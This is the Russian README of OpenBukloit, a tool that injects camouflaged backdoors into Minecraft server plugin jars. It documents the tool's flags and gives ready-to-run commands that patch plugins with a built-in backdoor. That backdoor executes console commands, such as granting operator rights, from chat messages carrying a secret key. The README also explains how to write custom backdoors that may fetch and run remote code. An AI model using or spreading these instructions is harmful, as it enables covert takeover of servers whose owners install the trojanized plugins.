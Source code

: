 <div align="center"><h1>OpenBukloit - Инжектор бекдоров для Minecraft плагинов</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-СКАЧАТЬ_ПОСЛЕДНИЙ_РЕЛИЗ_(КЛИК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Языки: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — современный и мощный универсальный инжектор бекдоров, совместимый со всеми Bukkit/Spigot/Paper/и т.д. плагинами. Его особенностью является возможность интеграции с абсолютно любым плагином без необходимости каждый раз модифицировать бекдор. Более того, он обеспечивает мощный движок камуфляжа, что делает практически невозможным его поиск без достаточных знаний или продвинутых автоматизированных инструментов. OpenBukloit был разработан для тестирования систем безопасности серверов Minecraft, Команда VoxelHax не несет ответственности за его неправомерное использование.

Это продолжение проекта **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в котором мы учли все проблемы предыдущего проекта и использовали совершенно другой подход к разработке.

## Возможности OpenBukloit
- **Полная поддержка Bukkit и его форков на любой версии Minecraft.**
- **Поддержка пользовательских бекдоров.**
- **Автоматическая загрузка JDK, поэтому вам не нужно заботиться о совместимости версии Java.**
- **Мощный камуфляжный движок, усложняющий поиск бекдора в плагине.**

## Установка
Для использования OpenBukloit у вас должна быть установлена любая версия Java (но не ниже 8). Jar-файл OpenBukloit можно загрузить с [вкладки релизов](https://github.com/Voxelhax/OpenBukloit/releases/latest). OpenBukloit не требует никаких дополнительных действий, просто поместите файл jar куда-нибудь и используйте его из командной строки.

## Использование
Чтобы запустить OpenBukloit, откройте командную строку в каталоге, где находится jar-файл OpenBukloit и введите:

```sh
java -jar OpenBukloit.jar
```

*Убедитесь, что вы указываете номер версии после названия OpenBukloit. Например, если вы скачали версию `OpenBukloit-1.0.12`, обязательно используйте имя `OpenBukloit-1.0.12.jar` в команде, а не просто `OpenBukloit.jar`.*

После имени файла jar вы можете передать некоторые аргументы для настройки инжектора:

| Короткий аргумент | Длинный аргумент | Описание                                                                                                                                                                                         | Тип      |
|-------------------|------------------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit        | Путь к пользовательскому скомпилированному файлу .class или к файлу исходного кода .java, который будет использоваться в качестве бекдора.<br />**По умолчанию используется встроенный бекдор.** | Значение |
| -m                | --mode           | Режим. Может быть одиночным/множественным.<br />**По умолчанию: <ins>multiple</ins>.**<br />В множественном режиме изменяет все файлы в указанной папке. В одиночном - только указанный файл.    | Значение |
| -i                | --input          | Путь к входной папке/файлу (зависит от режима).<br />**По умолчанию: <ins>in</ins> (<ins>in.jar</ins> если режим одиночный).**                                                                   | Значение |
| -o                | --output         | Путь к выходной папке/файлу (зависит от режима).<br />**По умолчанию: <ins>out</ins> (<ins>out.jar</ins> если режим одиночный).**                                                                | Значение |
| -r                | --replace        | Заменять выходной файл, если он уже существует.                                                                                                                                                  | Флаг     |
|                   | --no-camouflage  | Не использовать камуфляж (может быть полезным, если камуфляж не работает должным образом из-за обфускации плагина).                                                                              | Флаг     |
|                   | --class-name     | **Работает только с флагом `--no-camouflage`!** Задать кастомное название класса эксплоита (может включать название пакета, например: `com.voxelhax.OpenBukloitExploit`).                        | Значение |
|                   | --method-name    | **Працює тільки з флагом `--no-camouflage`!** Задать кастомное название для метода `inject` в классе эксплоита.                                                                                  | Значение |

Но этих аргументов недостаточно для запуска OpenBukloit. Вы также должны указать параметры бекдора. Поскольку OpenBukloit поддерживает внедрение пользовательских бекдоров, вы должны передать дополнительные аргументы, которые требуются для используемого бекдора.

## Встроенный эксплоит

По умолчанию OpenBukloit внедряет встроенный бекдор. Это простой бекдор, который позволяет вам выполнять любые команды из консоли, написав специальное ключевое слово перед командой в чате.

Параметры встроенного бекдора:

| Длинный аргумент | Описание                                                   |
|------------------|------------------------------------------------------------|
| --key            | Ключевое слово, запускающее выполнение консольной команды. |

Использование в игре ключа, установленного на "hackthisserver":

```
hackthisserver op MyName
```

Это сообщение, отправленное в чат, будет выполнено как консольная команда и даст ОП игроку MyName.

**Вот несколько примеров использования OpenBukloit со встроенным бекдором:**

1. Пропатчить все .jar файлы с ключом "#console" из папки "in" и сохранить их в папку "out" без замены.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчить все файлы с ключом "hacktheserver" из папки "in" и сохранить их в папку "out" с заменой.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчить один файл "PluginName.jar" с ключом "#console" и сохранить его как файл "Output.jar" с заменой.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

4. Пропатчить один файл "PluginName.jar" с ключом "#console" и сохранить его как файл "Output.jar" с заменой. Не использовать камуфляж и назвать класс эксплоита "com.voxelhax.OpenBukloitExploit".

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r --no-camouflage --class-name "com.voxelhax.OpenBukloitExploit"
```

## Написание пользовательского эксплоита

Вы также можете написать свой собственный бекдор. Это должен быть класс с методом `public static void inject(JavaPlugin args)` (JavaPlugin из Bukkit API).

Вот простой пример:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` будет выполнен после метода `onEnable` плагина. Вы можете делать здесь все, что хотите, включая загрузку и запуск произвольного кода из Интернета.

Но вы должны знать, что есть некоторые ограничения:
- В настоящее время вы не можете использовать вложенные классы, в файле эксплоита должен быть только один класс.
- Вы не должны ссылаться на свой класс эксплоита внутри него, например, использовать его как параметры метода, как возвращаемое значение или как тип поля.

Вы можете использовать внешние параметры из командной строки, используя %плейсхолдеры%, они будут подставлены в процессе инжекта:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Затем вы можете заинжектить бекдор с помощью команды:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Обратите внимание, что мы можем передать наш бекдор в OpenBukloit без компиляции, и он автоматически скомпилирует его с наличием API Spigot в пуле классов во время компиляции.
